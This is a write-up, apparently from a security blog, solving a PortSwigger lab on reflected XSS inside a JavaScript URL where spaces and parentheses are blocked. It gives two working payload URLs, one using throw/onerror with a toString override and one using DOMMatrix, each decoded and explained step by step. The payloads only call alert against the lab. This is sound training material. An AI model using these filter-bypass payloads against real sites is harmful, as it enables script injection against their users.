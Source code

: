 ```yaml
---
title: "Expert Lab: Reflected XSS in a JavaScript URL with some characters blocked"
published: true
tags: [Web Application Security, Web Security Academy, Expert Labs, Cross-Site Scripting, XSS, Javascript]
image: /blog/assets/poison-icon.png
---
```


<br>
![](/blog/assets/poison-icon.png)

<br>
### Link
[Lab: Reflected XSS in a JavaScript URL with some characters blocked](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-url-some-characters-blocked)

<br>
### Lab Description
* * *
<br>
This lab reflects your input in a JavaScript URL, but all is not as it seems. This initially seems like a trivial challenge; however, the application is blocking some characters in an attempt to prevent XSS attacks.

To solve the lab, perform a cross-site scripting attack that calls the alert function with the string 1337 contained somewhere in the alert message.

<br>
### Solutions
* * *
<br>
### Solution 1:
Visit the following URL, replacing your-lab-id with your lab ID:

```
https://your-lab-id.web-security-academy.net/post?postId=5&%27},x=x=%3E{throw/**/onerror=alert,1337},toString=x,window%2b%27%27,{x:%27
```

The lab will be solved, but the alert will only be called if you click "Back to blog" at the bottom of the page.

The payload here, URL decoded is:

```js
&'},x=x=>{throw/**/onerror=alert,1337},toString=x,window+'',{x:'
```

The exploit uses exception handling to call the alert function with arguments. The throw statement is used, separated with a blank comment in order to get round the no spaces restriction. The alert function is assigned to the onerror exception handler.

As throw is a statement, it cannot be used as an expression. Instead, we need to use arrow functions to create a block so that the throw statement can be used. We then need to call this function, so we assign it to the toString property of window and trigger this by forcing a string conversion on window.

<br>
Here are some explanations about the Javascript code used above:

First of all, the code is using the comma operator. What the comma operator does is allow you to evaluate multiple expressions. In particular in this case, you have three:

```js
   x=x=>{throw onerror=alert,1337},toString=x,window+''
// ^_____________________________^ ^________^ ^_______^
//                 1                     2         3
```

Let's examine them one by one:

<br>
#### Brief Note about Implicit Globals
This is going to be relevant for most of the below sections, so I want to clear it up first. Any time you assign to any name you haven't declared with `var`, `let`, or `const` it implicitly assigns to a property on the global object. In the browser, the global object is `window`, so any implicit globals go there.

<br>
#### An Arrow Function
```js
x=x=>{onerror=alert; throw 1337}
```

##### Definition
This will create a new arrow function and assign it to `x`. Since there is no variable declaration, `x` will be an implicit global and thus attached to `window`. This isn't extremely useful, it's likely done to save a few characters. The function also takes a single parameter called `x` but does nothing with it. Again, nothing useful, saves up a single character, otherwise it needs to be defined as `()=>`.

<br>
#### Overriding `toString`
```js
toString=x
```

This part will override the `toString` method on `window` and change it to the `x` function. Thus any time you explicitly or implicitly convert `window` to a string, it will instead execute `x`.

```js
x = x => {
  onerror = alert;
  throw 1337
}

toString = x;

window.toString();
```

<br>
#### Converting `window` to String
In JavaScript, when you try to concatenate any value with a string, the value will be implicitly also be converted to a string. This is usually done by calling the `toString()` method.

The same thing happens in the last part of the code:

```js
window+''
```

This will:

1. trigger conversion to a string, which
2. calls the `toString` method on `window`, which
3. was overridden with `x` using `toString=x`, which
4. calls the `x` function instead, which
5. sets the global error handler to just be `alert` (`onerror=alert`) and immediately throws an error (throw `1337`), which
6. invokes the global error handler

<br>
#### Why omitting `window+''` doesn't Throw an Error
Hopefully clear from the above, but to address it directly, that code is needed to set off the whole chain of reactions defined before it.
Here is the full code with explanation and formatting for clarity:

```js
//create a function
window.x = x => {
  onerror = alert; //changes the global error handler
  throw 1337       //throws an error to trigger the error handler
};

//overwrite the `toString` method of `window` so it always throws an error
window.toString = window.x;

//implicitly call `window.toString()` by performing a string concatenation
window + '';
```

<br>
### Solution 2:
Another interesting solution is to use _JavaScript without parentheses using DOMMatrix_ which is explained in detail by Gareth Heyes in a great post. You can find the link below in the External Links section of this post.
To solve this lab with DOMMatrix payload, use:

```
https://your-lab-id.web-security-academy.net/post?postId=5&%27},x=z=%3E{x=new/**/DOMMatrix;matrix=alert;x.a=1337;location='javascript'%2b':'%2bx},toString=x,window%2b%27%27,{x:%27
```

The payload in this code, URL decoded is:

```js
&'},x=z=>{x=new/**/DOMMatrix;matrix=alert;x.a=1337;location='javascript'+':'+x},toString=x,window+'',{x:'
```

As explained in Solution 1: `/**/` is used to bypass space restriction, also click "Back to blog" link to pop alert message box and solve the lab.


<br>
### _External Links_
* * *
* #### [Lab: Reflected XSS in a JavaScript URL with some characters blocked](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-url-some-characters-blocked)
* #### [Cross-site scripting (XSS) cheat sheet: Restricted characters](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#restricted-characters)
* #### [XSS without parentheses and semi-colons](https://portswigger.net/research/xss-without-parentheses-and-semi-colons)
* #### [JavaScript without parentheses using DOMMatrix](https://portswigger.net/research/javascript-without-parentheses-using-dommatrix)
* #### [Javascript window object, window+'', what does this code do](https://stackoverflow.com/questions/64416874/javascript-window-object-window-what-does-this-code-do)

<br>
### _References_
* * *
* ###### [Graphic](https://icons.iconarchive.com/icons/aha-soft/food/256/poison-icon.png) by [Aha-Soft](https://iconarchive.com/artist/aha-soft.html), [License URL](https://iconarchive.com/icons/aha-soft/food/license.txt) is Free for non-commercial use.
